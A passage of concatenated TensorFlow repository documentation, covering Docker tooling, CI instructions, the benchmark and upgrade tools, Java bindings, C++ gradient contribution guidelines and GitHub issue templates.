$ docker build -t tf-tools -f tools.Dockerfile .

# Set --user to set correct permissions on generated files
$ docker run --user $(id -u):$(id -g) -it -v $(pwd):/tf tf-tools bash

# Next you can make a handy alias depending on what you're doing. When building
# Docker images, you need to run as root with docker.sock mounted so that the
# container can run Docker commands. When assembling Dockerfiles, though, you'll
# want to run as your user so that new files have the right permissions.

# If you're BUILDING OR DEPLOYING DOCKER IMAGES, run as root with docker.sock:
$ alias asm_images="docker run --rm -v $(pwd):/tf -v /var/run/docker.sock:/var/run/docker.sock tf-tools python3 assembler.py "

# If you're REBUILDING OR ADDING DOCKERFILES, remove docker.sock and add -u:
$ alias asm_dockerfiles="docker run --rm -u $(id -u):$(id -g) -v $(pwd):/tf tf-tools python3 assembler.py "

# Check assembler flags
$ asm_dockerfiles --help

# Assemble all of the Dockerfiles
$ asm_dockerfiles --release dockerfiles --construct_dockerfiles

# Build all of the "nightly" images on your local machine:
$ asm_images --release nightly --build_images

# Save the list of built images to a file:
$ asm_images --release nightly --build_images > tf-built.txt

# Build version release for version 99.0, except "gpu" tags:
$ asm_images --release versioned --arg _TAG_PREFIX=99.0 --build_images --exclude_tags_matching '.*gpu.*'

# Test your changes to the devel images:
$ asm_images --release nightly --build_images --run_tests_path=$(realpath tests) --only_tags_matching="^devel-gpu-py3$"
```
Want more tutorials like these?

Check out tensorflow.org/tutorials!
# TensorFlow Builds

This directory contains all the files and setup instructions to run all the
important builds and tests. You can run it yourself!

## Run It Yourself

You have two options when running TensorFlow tests locally on your
machine. First, using docker, you can run our Continuous Integration
(CI) scripts on tensorflow devel images. The other option is to install
all TensorFlow dependencies on your machine and run the scripts
natively on your system.

### Run TensorFlow CI Scripts using Docker

1.  Install Docker following the [instructions on the docker website](https://docs.docker.com/engine/installation/).

2.  Start a container with one of the devel images here:
    https://hub.docker.com/r/tensorflow/tensorflow/tags/.

3.  Based on your choice of the image, pick one of the scripts under
    https://github.com/tensorflow/tensorflow/tree/master/tensorflow/tools/ci_build/linux
    and run them from the TensorFlow repository root.

### Run TensorFlow CI Scripts Natively on your Machine

1.  Follow the instructions at https://www.tensorflow.org/install/source,
    but stop when you get to the section "Configure the installation". You do not
    need to configure the installation to run the CI scripts.

2.  Pick the appropriate OS and python version you have installed,
    and run the script under tensorflow/tools/ci_build/<OS>.

## TensorFlow Continuous Integration

To verify that new changes don’t break TensorFlow, we run builds and
tests on either [Jenkins](https://jenkins-ci.org/) or a CI system
internal to Google.

We can trigger builds and tests on updates to master or on each pull
request. Contact one of the repository maintainers to trigger builds
on your pull request.

### View CI Results

The Pull Request will show if the change passed or failed the checks.

From the pull request, click **Show all checks** to see the list of builds
and tests. Click on **Details** to see the results from Jenkins or the internal
CI system.

Results from Jenkins are displayed in the Jenkins UI. For more information,
see the [Jenkins documentation](https://jenkins.io/doc/).

Results from the internal CI system are displayed in the Build Status UI. In
this UI, to see the logs for a failed build:

*   Click on the **INVOCATION LOG** tab to see the invocation log.

*   Click on the **ARTIFACTS** tab to see a list of all artifacts, including logs.

*   Individual test logs may be available. To see these logs, from the **TARGETS**
    tab, click on the failed target. Then, click on the **TARGET LOG** tab to see
    its test log.

    If you’re looking at target that is sharded or a test that is flaky, then
    the build tool divided the target into multiple shards or ran the test
    multiple times. Each test log is specific to the shard, run, and attempt.
    To see a specific log:

    1.  Click on the log icon that is on the right next to the shard, run,
        and attempt number.

    2.  In the grid that appears on the right, click on the specific shard,
        run, and attempt to view its log. You can also type the desired shard,
        run, or attempt number in the field above its grid.

### Third party TensorFlow CI

#### [Mellanox](https://www.mellanox.com/) TensorFlow CI

##### How to start CI

*   Submit special pull request (PR) comment to trigger CI: **bot:mlx:test**
*   Test session is run automatically.
*   Test results and artifacts (log files) are reported via PR comments

##### CI Steps

CI includes the following steps: * Build TensorFlow (GPU version) * Run
TensorFlow tests: *
[TF CNN benchmarks](https://github.com/tensorflow/benchmarks/blob/master/scripts/tf_cnn_benchmarks/tf_cnn_benchmarks.py)
(TensorFlow 1.13 and less) *
[TF models](https://github.com/tensorflow/models/tree/master/official/r1/resnet)
(TensorFlow 2.0): ResNet, synthetic data, NCCL, multi_worker_mirrored
distributed strategy

##### Test Environment

CI is run in the Mellanox lab on a 2-node cluster with the following parameters:
* Hardware * IB: 1x ConnectX-6 HCA (connected to Mellanox Quantum™ HDR switch) *
GPU: 1x Nvidia Tesla K40m * Software * Ubuntu 16.04.6 * Internal stable
[MLNX_OFED](https://www.mellanox.com/page/products_dyn?product_family=26),
[HPC-X™](https://www.mellanox.com/page/hpcx_overview) and
[SHARP™](https://www.mellanox.com/page/products_dyn?product_family=261&mtag=sharp)
versions

##### Support (Mellanox)

With any questions/suggestions or in case of issues contact
[Artem Ryabov](mailto:artemry@mellanox.com).
# Default targets run by presubmits.

This bash script is invoked internally to run presubmits. Please only modify
default bazel targets.
# TensorFlow Model Benchmark Tool

## Description

A simple C++ binary to benchmark a compute graph and its individual operators,
both on desktop machines and on Android.

## To build/install/run

### On Android:

(0) Refer to https://github.com/tensorflow/tensorflow/tree/master/tensorflow/examples/android
to edit the `WORKSPACE` to configure the android NDK/SDK.

(1) build for your specific platform, e.g.:

```
bazel build -c opt \
  --crosstool_top=//external:android/crosstool \
  --cpu=armeabi-v7a \
  --host_crosstool_top=@bazel_tools//tools/cpp:toolchain \
  --config monolithic \
  tensorflow/tools/benchmark:benchmark_model
```

(2) Connect your phone. Push the binary to your phone with adb push
     (make the directory if required):

```
adb push bazel-bin/tensorflow/tools/benchmark/benchmark_model /data/local/tmp
```

(3) Push the compute graph that you need to test. For example:

```
adb push tensorflow_inception_graph.pb /data/local/tmp
```

(4) Run the benchmark. For example:

```
adb shell /data/local/tmp/benchmark_model \
  --graph=/data/local/tmp/tensorflow_inception_graph.pb \
  --input_layer="input:0" \
  --input_layer_shape="1,224,224,3" \
  --input_layer_type="float" \
  --output_layer="output:0"
```

### On desktop:
(1) build the binary

```
bazel build -c opt tensorflow/tools/benchmark:benchmark_model
```

(2) Run on your compute graph, similar to the Android case but without the need
of adb shell. For example:

```
bazel-bin/tensorflow/tools/benchmark/benchmark_model \
  --graph=tensorflow_inception_graph.pb \
  --input_layer="input:0" \
  --input_layer_shape="1,224,224,3" \
  --input_layer_type="float" \
  --output_layer="output:0"
```

The Inception graph used as an example here may be downloaded from
https://storage.googleapis.com/download.tensorflow.org/models/inception5h.zip
# TensorFlow Python API Upgrade Utility

This tool allows you to upgrade your existing TensorFlow Python scripts,
specifically:
* `tf_upgrade_v2.py`: Upgrade code from TensorFlow 1.x to TensorFlow 2.0 preview.
* `tf_upgrade.py`: Upgrade code to TensorFlow 1.0 from TensorFlow 0.11.

## Running the script from pip package

First, install TensorFlow pip package*. See
https://www.tensorflow.org/install/pip.

Upgrade script can be run on a single Python file:

```
tf_upgrade_v2 --infile foo.py --outfile foo-upgraded.py
```

It will print a list of errors it finds that it can't fix. You can also run
it on a directory tree:

```
# upgrade the .py files and copy all the other files to the outtree
tf_upgrade_v2 --intree coolcode --outtree coolcode-upgraded

# just upgrade the .py files
tf_upgrade_v2 --intree coolcode --outtree coolcode-upgraded --copyotherfiles False
```

*Note: `tf_upgrade_v2` is installed automatically as a script by the pip install
 after TensorFlow 1.12.


## Report

The script will also dump out a report e.g. which will detail changes
e.g.:

```
'tensorflow/tools/compatibility/testdata/test_file_v1_12.py' Line 65
--------------------------------------------------------------------------------

Added keyword 'input' to reordered function 'tf.argmax'
Renamed keyword argument from 'dimension' to 'axis'

    Old:         tf.argmax([[1, 3, 2]], dimension=0)
                                        ~~~~~~~~~~
    New:         tf.argmax(input=[[1, 3, 2]], axis=0)

```

## Caveats

- Don't update parts of your code manually before running this script. In
particular, functions that have had reordered arguments like `tf.argmax`
or `tf.batch_to_space` will cause the script to incorrectly add keyword
arguments that mismap arguments.

- This script wouldn't actually reorder arguments. Instead, the script will add
keyword arguments to functions that had their arguments reordered.

- The script assumes that `tensorflow` is imported using `import tensorflow as tf`.

- Note for upgrading to 2.0: Check out [tf2up.ml](http://tf2up.ml) for a
  convenient tool to upgrade Jupyter notebooks and Python files in a GitHub
  repository.

- Note for upgrading to 1.0: There are some syntaxes that are not handleable with this script as this
script was designed to use only standard python packages.
If the script fails with "A necessary keyword argument failed to be inserted." or
"Failed to find keyword lexicographically. Fix manually.", you can try
[@machrisaa's fork of this script](https://github.com/machrisaa/tf0to1).
[@machrisaa](https://github.com/machrisaa) has used the
[RedBaron Python refactoring engine](https://redbaron.readthedocs.io/en/latest/)
which is able to localize syntactic elements more reliably than the built-in
`ast` module this script is based upon. Note that the alternative script is not
available for TensorFlow 2.0 upgrade.
# TensorFlow for Java

> *WARNING*: The TensorFlow Java API is not currently covered by the TensorFlow
> [API stability guarantees](https://www.tensorflow.org/guide/version_compat).
>
> For using TensorFlow on Android refer instead to [TensorFlow Lite](https://www.tensorflow.org/code/tensorflow/lite/).

## Quickstart

-   Refer to [Installing TensorFlow for Java](https://www.tensorflow.org/install/lang_java)
-   [Javadoc](https://www.tensorflow.org/api_docs/java/reference/org/tensorflow/package-summary)
-   [](https://maven-badges.herokuapp.com/maven-central/org.tensorflow/tensorflow)

## Nightly builds

Releases built from release branches are available on Maven Central.
Additionally, every day binaries are built from the `master` branch on GitHub:

-   [JAR](https://storage.googleapis.com/tensorflow-nightly/github/tensorflow/lib_package/libtensorflow.jar)
-   [Source JAR](https://storage.googleapis.com/tensorflow-nightly/github/tensorflow/lib_package/libtensorflow-src.jar)
-   JNI:
    -   [Linux CPU-only](https://storage.googleapis.com/tensorflow-nightly/github/tensorflow/lib_package/libtensorflow_jni-cpu-linux-x86_64.tar.gz)
    -   [Linux GPU](https://storage.googleapis.com/tensorflow-nightly/github/tensorflow/lib_package/libtensorflow_jni-gpu-linux-x86_64.tar.gz)
    -   [MacOS](https://storage.googleapis.com/tensorflow-nightly/github/tensorflow/lib_package/libtensorflow_jni-cpu-darwin-x86_64.tar.gz)
    -   Windows: (No nightly builds available yet)

## Building from source

If the quickstart instructions above do not work out, the TensorFlow Java and
native libraries will need to be built from source.

1.  Install [bazel](https://www.bazel.build/versions/master/docs/install.html)

2.  Setup the environment to build TensorFlow from source code
    ([Linux or macOS](https://www.tensorflow.org/install/source)).
    If you'd like to skip reading those details and do not care about GPU
    support, try the following:

    ```sh
    # On Linux
    sudo apt-get install python swig python-numpy

    # On Mac OS X with homebrew
    brew install swig
    ```

3.  [Configure](https://www.tensorflow.org/install/source)
    (e.g., enable GPU support) and build:

    ```sh
    ./configure
    bazel build --config opt \
      //tensorflow/java:tensorflow \
      //tensorflow/java:libtensorflow_jni
    ```

The command above will produce two files in the `bazel-bin/tensorflow/java`
directory:

*   An archive of Java classes: `libtensorflow.jar`
*   A native library: `libtensorflow_jni.so` on Linux, `libtensorflow_jni.dylib`
    on OS X, or `tensorflow_jni.dll` on Windows.

To compile Java code that uses the TensorFlow Java API, include
`libtensorflow.jar` in the classpath. For example:

```sh
javac -cp bazel-bin/tensorflow/java/libtensorflow.jar ...
```

To execute the compiled program, include `libtensorflow.jar` in the classpath
and the native library in the library path. For example:

```sh
java -cp bazel-bin/tensorflow/java/libtensorflow.jar \
  -Djava.library.path=bazel-bin/tensorflow/java \
  ...
```

Installation on Windows requires the more experimental [bazel on
Windows](https://bazel.build/versions/master/docs/windows.html). Details are
omitted here, but find inspiration in the script used for building the release
archive:
[`tensorflow/tools/ci_build/windows/libtensorflow_cpu.sh`](https://www.tensorflow.org/code/tensorflow/tools/ci_build/windows/libtensorflow_cpu.sh).

### Bazel

If your project uses bazel for builds, add a dependency on
`//tensorflow/java:tensorflow` to the `java_binary` or `java_library` rule. For
example:

```sh
bazel run -c opt //tensorflow/java/src/main/java/org/tensorflow/examples:label_image
```
<!--#include file="../../python/saved_model/README.md"-->
# C++ gradients

Gradients are currently being ported from
[python](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/python/ops)
to C++ (in this directory).

Contributions are welcome and much appreciated; please follow the instructions
below.

1.  Create the op gradient function in `foo_grad.cc` corresponding to the
    `foo_grad.py` file where the op originated (i.e. `array_grad.py` op
    gradients should be written in `array_grad.cc`).

2.  Write the op gradient with the following naming scheme:

    ```
    Status OpNameGrad(const Scope& scope, const Operation& op,
                      const std::vector<Output>& grad_inputs,
                      std::vector<Output>* grad_outputs) {
      ...
      return scope.status();
    }
    REGISTER_GRADIENT_OP("OpName", OpNameGrad);
    ```

3.  Ops gradients are implemented by using the
    [C++ API](https://www.tensorflow.org/api_docs/cc/).

4.  Tests should be included in `foo_grad_test.cc`. Please see
    [`array_grad_test.cc`](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/cc/gradients/array_grad_test.cc)
    for many examples. Tests are as simple as, creating a placeholder input for
    the op's inputs and calling `RunTest` (`RunTest` uses a
    [gradient checker](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/cc/framework/gradient_checker.cc)
    to verify that the theoretical gradient matches the numeric gradient). For
    example:

    ```
    TEST_F(ArrayGradTest, IdentityGrad) {
      TensorShape shape({5, 2});
      auto x = Placeholder(scope_, DT_FLOAT, Placeholder::Shape(shape));
      auto y = Identity(scope_, x);
      RunTest(x, shape, y, shape);
    }
    ```

NOTE: There are some ops that require features from the C++ API that are not yet
implemented.

*   Ops that require PartialTensorShape information cannot yet be implemented.

*   Ops that require SparseTensor or IndexSlices (currently only in python)
    cannot yet be implemented.

*   Maybe more.

For questions: Please create an issue assigned to suharshs.
# numpy_ops

The folder tf_numpy_api/ contains lists of NumPy API symbols that the
`numpy_ops` internal module in TensorFlow implements.
---
name: Bug Issue
about: Use this template for reporting a bug
labels: 'type:bug'

---

<em>Please make sure that this is a bug. As per our
[GitHub Policy](https://github.com/tensorflow/tensorflow/blob/master/ISSUES.md),
we only address code/doc bugs, performance issues, feature requests and
build/installation issues on GitHub. tag:bug_template</em>

**System information**
- Have I written custom code (as opposed to using a stock example script provided in TensorFlow):
- OS Platform and Distribution (e.g., Linux Ubuntu 16.04):
- Mobile device (e.g. iPhone 8, Pixel 2, Samsung Galaxy) if the issue happens on mobile device:
- TensorFlow installed from (source or binary):
- TensorFlow version (use command below):
- Python version:
- Bazel version (if compiling from source):
- GCC/Compiler version (if compiling from source):
- CUDA/cuDNN version:
- GPU model and memory:

You can collect some of this information using our environment capture
[script](https://github.com/tensorflow/tensorflow/tree/master/tools/tf_env_collect.sh)
You can also obtain the TensorFlow version with:
1. TF 1.0: `python -c "import tensorflow as tf; print(tf.GIT_VERSION, tf.VERSION)"`
2. TF 2.0: `python -c "import tensorflow as tf; print(tf.version.GIT_VERSION, tf.version.VERSION)"`

**Describe the current behavior**

**Describe the expected behavior**

**[Contributing](https://www.tensorflow.org/community/contribute)**

- Do you want to contribute a PR? (yes/no):
- Briefly describe your candidate solution(if contributing):

**Standalone code to reproduce the issue**
Provide a reproducible test case that is the bare minimum necessary to generate
the problem. If possible, please share a link to Colab/Jupyter/any notebook.

**Other info / logs** Include any logs or source code that would be helpful to
diagnose the problem. If including tracebacks, please include the full
traceback. Large logs and files should be attached.
---
name: Performance Issue
about: Use this template for reporting a performance issue
labels: 'type:performance'

---

<em>Please make sure that this is an issue related to performance of TensorFlow.
As per our
[GitHub Policy](https://github.com/tensorflow/tensorflow/blob/master/ISSUES.md),
we only address code/doc bugs, performance issues, feature requests and
build/installation issues on GitHub. tag:performance_template</em>

**System information**
- Have I written custom code (as opposed to using a stock example script provided in TensorFlow):
- OS Platform and Distribution (e.g., Linux Ubuntu 16.04):
- Mobile device (e.g. iPhone 8, Pixel 2, Samsung Galaxy) if the issue happens on mobile device:
- TensorFlow installed from (source or binary):
- TensorFlow version (use command below):
- Python version:
- Bazel version (if compiling from source):
- GCC/Compiler version (if compiling from source):
- CUDA/cuDNN version:
- GPU model and memory:

You can collect some of this information using our environment capture
[script](https://github.com/tensorflow/tensorflow/tree/master/tools/tf_env_collect.sh)
You can also obtain the TensorFlow version with:
1. TF 1.0: `python -c "import tensorflow as tf; print(tf.GIT_VERSION, tf.VERSION)"`
2. TF 2.0: `python -c "import tensorflow as tf; print(tf.version.GIT_VERSION, tf.version.VERSION)"`

**Describe the current behavior**

**Describe the expected behavior**

**Standalone code to reproduce the issue**
Provide a reproducible test case that is the bare minimum necessary to generate
the problem. If possible, please share a link to Colab/Jupyter/any notebook.

**Other info / logs** Include any logs or source code that would be helpful to
diagnose the problem. If including tracebacks, please include the full
traceback. Large logs and files should be attached.
---
name: Build/Installation Issue
about: Use this template for build/installation issues
labels: 'type:build/install'

---

<em>Please make sure that this is a build/installation issue. As per our [GitHub Policy](https://github.com/tensorflow/tensorflow/blob/master/ISSUES.md), we only address code/doc bugs, performance issues, feature requests and build/installation issues on GitHub. tag:build_template</em>

**System information**
- OS Platform and Distribution (e.g., Linux Ubuntu 16.04):
- Mobile device (e.g. iPhone 8, Pixel 2, Samsung Galaxy) if the issue happens on mobile device:
- TensorFlow installed from (source or binary):
- TensorFlow version:
- Python version:
- Installed using virtualenv? pip? conda?:
- Bazel version (if compiling from source):
- GCC/Compiler version (if compiling from source):
- CUDA/cuDNN version:
- GPU model and memory:


**Describe the problem**

**Provide the exact sequence of commands / steps that you executed before running into the problem**


**Any other info / logs**
Include any logs or source code that would be helpful to diagnose the problem. If including tracebacks, please include the full traceback. Large logs and files should be attached.
---
name: TensorFlow Lite Op Request
about: Use this template for reporting Lite ops you are using or missing
labels: 'comp:lite'

---

**System information**
- OS Platform and Distribution (e.g., Linux Ubuntu 16.04):
- TensorFlow installed from (source or binary):
- TensorFlow version (or github SHA if from source):


**Provide the text output from tflite_convert**

```
# Copy and paste here
```

**Standalone code to reproduce the issue** 
Provide a reproducible test case that is the bare minimum necessary to generate
the problem. If possible, please share a link to Colab/Jupyter/any notebook.

Also, please include a link to a GraphDef or the model if possible.

**Any other info / logs**

Include any logs or source code that would be helpful to diagnose the problem.
If including tracebacks, please include the full traceback. Large logs and files
should be attached.
---
name: Other Issues
about: Use this template for any other non-support related issues
labels: 'type:others'

---

This template is for miscellaneous issues not covered by the other issue categories.

For questions on how to work with TensorFlow, or support for problems that are
not verified bugs in TensorFlow, please go to
[Discourse](https://discuss.tensorflow.org/).

If you are reporting a vulnerability, please use the [dedicated reporting process](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md).

For high-level discussions about TensorFlow, please post to discuss@tensorflow.org, for questions about the development or internal workings of TensorFlow, or if you would like to know how to contribute to TensorFlow, please post to developers@tensorflow.org.
---
name: Documentation Issue
about: Use this template for documentation related issues
labels: 'type:docs'

---


Thank you for submitting a TensorFlow documentation issue. Per our GitHub
policy, we only address code/doc bugs, performance issues, feature requests, and
build/installation issues on GitHub.

The TensorFlow docs are open source! To get involved, read the documentation
contributor guide: https://www.tensorflow.org/community/contribute/docs

## URL(s) with the issue:

Please provide a link to the documentation entry, for example:
https://www.tensorflow.org/versions/r2.0/api_docs/python/tf/

## Description of issue (what needs changing):

### Clear description

For example, why should someone use this method? How is it useful?

### Correct links

Is the link to the source code correct?

### Parameters defined

Are all parameters defined and formatted correctly?

### Returns defined

Are return values defined?

### Raises listed and defined

Are the errors defined? For example,
https://www.tensorflow.org/versions/r2.0/api_docs/python/tf/feature_column/categorical_column_with_vocabulary_file#raises

### Usage example

Is there a usage example?

See the API guide: https://www.tensorflow.org/community/contribute/docs_ref
on how to write testable usage examples.

### Request visuals, if applicable

Are there currently visuals? If not, will it clarify the content?

### Submit a pull request?

Are you planning to also submit a pull request to fix the issue? See the docs
contributor guide: https://www.tensorflow.org/community/contribute/docs,
docs API guide: https://www.tensorflow.org/community/contribute/docs_ref and the
docs style guide: https://www.tensorflow.org/community/contribute/docs_style
---
name: Feature Request
about: Use this template for raising a feature request
labels: 'type:feature'

---

<em>Please make sure that this is a feature request. As per our [GitHub Policy](https://github.com/tensorflow/tensorflow/blob/master/ISSUES.md), we only address code/doc bugs, performance issues, feature requests and build/installation issues on GitHub. tag:feature_template</em>


**System information**
- TensorFlow version (you are using):
- Are you willing to contribute it (Yes/No):


**Describe the feature and the current behavior/state.**

**Will this change the current api? How?**

**Who will benefit with this feature?**

**Any Other info.**
---
name: Keras Issue
about: Use this template for reporting a keras issue
labels: 'comp:keras'

---

<em>Please make sure that this is an issue related to keras.
tag:keras_template</em>

**Important Notice**

Please note that `tf.keras` code was moved entirely to
[keras-team/keras](https://github.com/keras-team/keras) repository

You can open any code/doc bugs, performance issues, and feature requests
 in [keras-team/keras](https://github.com/keras-team/keras/issues) repository

`tf.keras` related issues opened in
[tensorflow/tensorflow](https://github.com/tensorflow/tensorflow) repository may
not get attention as [keras-team/keras](https://github.com/keras-team/keras)
repository is dedicated for the development of `keras` code
---
name: TensorFlow Lite Converter Issue
about: Use this template for reporting issues during model conversion to TFLite
labels: 'TFLiteConverter'

---

### 1. System information

- OS Platform and Distribution (e.g., Linux Ubuntu 16.04):
- TensorFlow installation (pip package or built from source):
- TensorFlow library (version, if pip package or github SHA, if built from source):

### 2. Code

Provide code to help us reproduce your issues using one of the following options:

#### Option A: Reference colab notebooks

1)  Reference [TensorFlow Model Colab](https://colab.research.google.com/gist/ymodak/e96a4270b953201d5362c61c1e8b78aa/tensorflow-datasets.ipynb?authuser=1): Demonstrate how to build your TF model.
2)  Reference [TensorFlow Lite Model Colab](https://colab.research.google.com/gist/ymodak/0dfeb28255e189c5c48d9093f296e9a8/tensorflow-lite-debugger-colab.ipynb): Demonstrate how to convert your TF model to a TF Lite model (with quantization, if used) and run TFLite Inference (if possible).

```
(You can paste links or attach files by dragging & dropping them below)
- Provide links to your updated versions of the above two colab notebooks.
- Provide links to your TensorFlow model and (optionally) TensorFlow Lite Model.
```

#### Option B: Paste your code here or provide a link to a custom end-to-end colab

```
(You can paste links or attach files by dragging & dropping them below)
- Include code to invoke the TFLite Converter Python API and the errors.
- Provide links to your TensorFlow model and (optionally) TensorFlow Lite Model.
```

### 3. Failure after conversion
If the conversion is successful, but the generated model is wrong, then state what is wrong:

- Model produces wrong results and/or has lesser accuracy.
- Model produces correct results, but it is slower than expected.

### 4. (optional) RNN conversion support
If converting TF RNN to TFLite fused RNN ops, please prefix [RNN] in the title.

### 5. (optional) Any other info / logs
Include any logs or source code that would be helpful to diagnose the problem. If including tracebacks, please include the full traceback. Large logs and files should be attached.
